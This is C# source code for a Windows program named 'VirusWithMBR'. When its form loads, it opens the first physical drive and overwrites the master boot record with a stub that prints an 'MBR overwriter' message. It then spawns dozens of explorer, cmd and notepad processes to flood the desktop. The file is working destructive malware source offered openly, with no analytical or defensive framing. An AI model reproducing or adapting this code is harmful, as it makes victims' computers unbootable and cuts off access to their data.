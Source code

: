 # VirusWithMBR
VirusWithMBR Code - using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Drawing;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Forms;
using System.Reflection;
using System.Runtime.InteropServices;
using System.IO;
using System.Diagnostics; // Добавлено пространство имен

namespace WindowsFormsApp6
{
    public partial class Form1 : Form
    {
        private byte[] ipBuffer;
        private uint nNumberOfBytesToWrite;

        private const uint GenericRead = 0x80000000;
        private const uint GenericWrite = 0x40000000;
        private const uint GenericExecute = 0x20000000;
        private const uint GenericAll = 0x10000000;

        private const uint FileShareRead = 0x1;
        private const uint FileShareWrite = 0x2;

        // dwCreationDisposition
        private const uint OpenExisting = 0x3;

        // dwFlagsAndAttributes
        private const uint FileFlagDeleteOnClose = 0x40000000;

        private const uint MbrSize = 512u;

        [DllImport("ntdll.dll", SetLastError = true)]
        private static extern int NtSetInformationProcess(IntPtr hProcess, int processInformationClass, ref int processInformation, int processinformationLenght);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool CloseHandle(IntPtr hHandle);

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        private static extern IntPtr CreateFile(
            string lpFileName,
            uint dwDesiredAccess,
            uint dwShareMode,
            IntPtr lpSecurityAttributes,
            uint dwCreationDisposition,
            uint dwFlagsAndAttributes,
            IntPtr hTemplateFile);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool WriteFile(
            IntPtr hFile,
            byte[] lpBuffer,
            uint nNumberOfBytesToWrite,
            out uint lpNumberOfBytesWritten,
            IntPtr lpOverlapped);

        public Form1()
        {
            InitializeComponent();
        }

        private void Form1_Load(object sender, EventArgs e)
        {
            try
            {
                byte[] mbrDate = new byte[]
                {
                    0xEB, 0x00, 0x31, 0xC0, 0x8E, 0xD8, 0xFC, 0xB8, 0x12, 0x00, 0xCD, 0x10, 0xBE, 0x24, 0x7C, 0xB3,
                    0x09, 0xE8, 0x02, 0x00, 0xEB, 0xFE, 0xB7, 0x00, 0xAC, 0x3C, 0x00, 0x74, 0x06, 0xB4, 0x0E, 0xCD,
                    0x10, 0xEB, 0xF5, 0xC3, 0x59, 0x6F, 0x75, 0x72, 0x20, 0x74, 0x65, 0x78, 0x74, 0x20, 0x68, 0x65,
                    0x72, 0x65, 0x29, 0x0D, 0x0A, 0x4D, 0x42, 0x52, 0x20, 0x6F, 0x76, 0x65, 0x72, 0x77, 0x72, 0x69,
                    0x74, 0x65, 0x72, 0x20, 0x62, 0x79, 0x20, 0x53, 0x75, 0x70, 0x65, 0x72, 0x20, 0x54, 0x61, 0x6E,
                    0x6B, 0x20, 0x3A, 0x44, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
                };

                IntPtr mbrData = CreateFile(
                    @"\\.\PhysicalDrive0",
                    GenericWrite,
                    FileShareWrite,
                    IntPtr.Zero,
                    OpenExisting,
                    0,
                    IntPtr.Zero);

                WriteFile(mbrData, mbrDate, MbrSize, out uint IpNumberOfBytesWritten, IntPtr.Zero);
                CloseHandle(mbrData);

                // Исправленный вызов Process.Start
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("explorer.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("cmd.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");
                Process.Start("notepad.exe");






            }
            catch
            {
                // Обработка исключений
            }
        }
    }
}
